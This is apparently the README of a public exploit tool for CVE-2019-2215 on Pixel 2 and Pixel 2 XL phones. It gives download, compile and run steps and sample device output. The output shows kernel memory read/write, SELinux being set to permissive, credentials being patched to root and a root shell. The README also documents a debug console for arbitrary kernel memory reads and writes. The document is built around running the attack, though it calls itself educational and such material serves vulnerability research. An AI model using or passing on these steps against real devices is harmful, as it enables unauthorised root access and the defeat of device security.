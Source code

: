 # CVE-2019-2215
### Temproot for Pixel 2 and Pixel 2 XL via CVE-2019-2215
#### (Based on a [proof-of-concept](https://bugs.chromium.org/p/project-zero/issues/detail?id=1942) by Jann Horn & Maddie Stone of Google Project Zero)
----
## Overview
Demonstration of a kernel memory R/W-only privilege escalation attack resulting in a temporary root shell.

It works on Google [Pixel 2](https://dl.google.com/dl/android/aosp/walleye-ota-qp1a.190711.020-d326cba7.zip)/[Pixel 2 XL](https://dl.google.com/dl/android/aosp/taimen-ota-qp1a.190711.020-4757f073.zip) (walleye/taimen) devices running the September 2019 QP1A.190711.020 image with kernel version-BuildID **`4.4.177-g83bee1dc48e8`**.

For this tool to work on other devices and/or kernels affected by the same vulnerability, some offsets need to be found and changed. As mentioned on the [Project Zero bugtracker](https://bugs.chromium.org/p/project-zero/issues/detail?id=1942), this isn't terribly difficult.

Also included is a [mini debug console](#debug-console) that provides a hex editor-like interface for touching kernel memory and the ability to spawn a shell.

## Disclaimers
* ### [This tool](https://kangtastic.github.io/cve-2019-2215/cve-2019-2215.zip), and its [source](https://github.com/kangtastic/cve-2019-2215/blob/master/cve-2019-2215.c), are made available for documentary and educational purposes only.
* ### Do not use this tool. It is a bad idea.
* ### Help, support, updates&mdash;pick none.

## Compilation
For convenience, a **`Makefile`** is included that works with the cross-compiler toolchain from [Android NDK](https://developer.android.com/ndk/downloads/index.html) r19 or higher.

```console
# Download the Android NDK.
user@host:~$ wget https://dl.google.com/android/repository/android-ndk-r20-linux-x86_64.zip

# Extract the NDK and set its path as $ANDROID_NDK_HOME.
user@host:~$ unzip android-ndk-r20-linux-x86_64.zip
user@host:~$ rm android-ndk-r20-linux-x86_64.zip  # optional
user@host:~$ export ANDROID_NDK_HOME=~/android-ndk-r20

# Clone the `cve-2019-2215` git repository and `cd` into it.
user@host:~$ git clone https://github.com/kangtastic/cve-2019-2215.git
user@host:~$ cd cve-2019-2215

# Compile the binary.
user@host:~/cve-2019-2215$ make all  # all, clean, debug, debug-static, static, strip
user@host:~/cve-2019-2215$ file cve-2019-2215
cve-2019-2215: ELF 64-bit LSB shared object, ARM aarch64, version 1 (SYSV),
dynamically linked, interpreter /system/, stripped
```

## Usage
###### (sample outputs captured on a Pixel 2 XL via [adb](https://developer.android.com/studio/command-line/adb))
### Temproot
Once the binary is compiled, transfer it onto the device, set it executable, and run it. (Somewhere in **`/data/`** should work.)
#### Example
```console
taimen:/ $ cd /data/local/tmp
taimen:/data/local/tmp $ install -m 755 /sdcard/cve-2019-2215 ./
taimen:/data/local/tmp $ ./cve-2019-2215
Temproot for Pixel 2 and Pixel 2 XL via CVE-2019-2215
[+] startup
[+] find kernel address of current task_struct
[+] obtain arbitrary kernel memory R/W
[+] find kernel base address
[+] bypass SELinux and patch current credentials
taimen:/data/local/tmp # id
uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),
1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),
3006(net_bw_stats),3009(readproc),3011(uhid) context=u:r:kernel:s0
taimen:/data/local/tmp # getenforce
Permissive
taimen:/data/local/tmp # exit
taimen:/data/local/tmp $
```
Success is not guaranteed and the device may even outright crash, but usually, SELinux is set **`Permissive`** and a root shell is spawned.
### Debug console
Pass **`debug`** as the sole command-line argument to start a mini debug console instead of the privilege escalation routine after kernel R/W is achieved.
#### Command reference
```console
debug> help
quick help
    print
        print kernel base address, some kernel symbol offsets,
        and address of current task_struct as hexstrings
    read <kaddr> <len>
        read <len> bytes from <kaddr> and display as a hexdump
        <kaddr> is a hexstring not prefixed with 0x
        <len> is 1-4096 or 0x1-0x1000
    write <kaddr> <data>
        write <data> to <kaddr>
        <kaddr> is a hexstring not prefixed with 0x
        <data> is 1-4096 hexbytes, spaces ignored, to be written *AS-IS*
        e.g. if kaddr 0xffffffffdeadbeef contains an int, and you want to set
        its value to 1, enter 'write ffffffffdeadbeef <data>', where <data> is
        '01000000', '0100 0000', '01 00 0 0 00', etc. (our ARM is little-endian)
    shell
        launch a shell (hint: did we ~somehow~ become another user? :P)
    help
        print this help
    exit
        exit debug console
```
#### Example
Set SELinux from **`Permissive`** back to **`Enforcing`** as an unprivileged user.
```console
taimen:/data/local/tmp $ getenforce
Permissive
taimen:/data/local/tmp $ ./cve-2019-2215 debug
Temproot for Pixel 2 and Pixel 2 XL via CVE-2019-2215
[+] startup
[+] find kernel address of current task_struct
[+] obtain arbitrary kernel memory R/W
[+] find kernel base address
launching debug console, enter 'help' for quick help
debug> print
ffffff9bad880000 kernel_base
ffffff9baf8a57d0 init_task
ffffff9baf8af2c8 init_user_ns
ffffff9baf8e3780 selinux_enabled
ffffff9bafc4e4a8 selinux_enforcing
ffffffe6b2942b80 current
debug> read ffffff9bafc4e4a8 35
ffffff9bafc4e4a8: 0000 0000 0100 0000 002e 40b9 faff ffff  ..........@.....
ffffff9bafc4e4b8: 0023 40b9 faff ffff 0000 0000 0000 0000  .#@.............
ffffff9bafc4e4c8: 0000 00                                  ...
debug> write ffffff9bafc4e4a8 01 00 00 00
debug> read ffffff9bafc4e4a8 4
ffffff9bafc4e4a8: 0100 0000                                ....
debug> exit
taimen:/data/local/tmp $ getenforce
Enforcing
taimen:/data/local/tmp $
```
